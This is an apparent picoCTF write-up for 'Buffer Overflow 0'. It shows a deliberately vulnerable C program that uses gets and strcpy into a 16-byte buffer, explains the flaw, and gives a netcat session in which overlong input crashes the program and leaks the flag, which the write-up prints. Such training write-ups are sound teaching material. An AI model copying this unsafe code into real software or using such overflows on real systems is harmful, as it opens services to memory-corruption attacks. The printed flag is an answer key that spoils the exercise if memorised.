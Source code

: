 # BUFFER OVERFLOW 0
In this challenge were given with the following c program:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```
After some research i found out that the sigsegv_handler function is a custom handler for segmentation faults. The problem that we can see here is the use of strcpy which does not check for bounds.
So its easy for an attacker to overflow buf2 if the input exceeds 16 bytes. This is easy to do as the input is taken in buf1 where gets is used which is another function that is vunerable (allows input upto 100 bytes so we can exceed 16 byted easily)

So basically an attacker can trigger a segmentation fault and leak the flag by exceeding the input size beyond the size of buf2.

So that what i did:
```
aditya_cryptonite@DESKTOP-SG1LV2M:~$ nc saturn.picoctf.net 61825
Input: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```
### Flag:
>picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}

